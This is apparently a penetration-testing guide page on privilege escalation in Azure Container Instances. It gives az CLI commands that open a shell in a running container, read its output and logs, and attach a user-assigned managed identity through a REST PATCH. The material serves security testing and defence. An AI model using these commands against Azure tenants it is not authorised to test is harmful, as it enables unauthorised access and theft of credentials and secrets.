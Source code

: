# Az - Azure Container Instances, Apps & Jobs Privesc

## Azure Container Instances, Apps & Jobs

Fore more information check:

[[../az-services/az-container-instances-apps-jobs.md]]

## ACI

### `Microsoft.ContainerInstance/containerGroups/read`, `Microsoft.ContainerInstance/containerGroups/containers/exec/action`

These permissions allow the user to **execute a command** in a running container. This can be used to **escalate privileges** in the container if it has any managed identity attached. Ofc, it's also possible to access the source code and any other sentitive information storeed inside the container.

To get a shell is as simple as:

```bash
az container exec --name <container-name> --resource-group <res-group>  --exec-command '/bin/sh'
```

It's also possible to **read the output** of the container with:

```bash
az container attach --name <container-name> --resource-group <res-group>
```

Or get the logs with:

```bash
az container logs --name <container-name> --resource-group <res-group>
```

### `Microsoft.ContainerInstance/containerGroups/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

These permissions allows to **attach a user managed identity** to a container group. This is very useful to escalate privileges in the container.

To attach a user managed identity to a container group:

```bash
az rest \
  --method PATCH \
  --url "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerInstance/containerGroups/<container-name>?api-version=2021-09-01" \
  --body '{
    "identity": {
      "type": "UserAssigned",
      "userAssignedIdentities": {
        "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<user-namaged-identity-name>": {}
      }
    }
  }' \
  --headers "Content-Type=application/json"
```
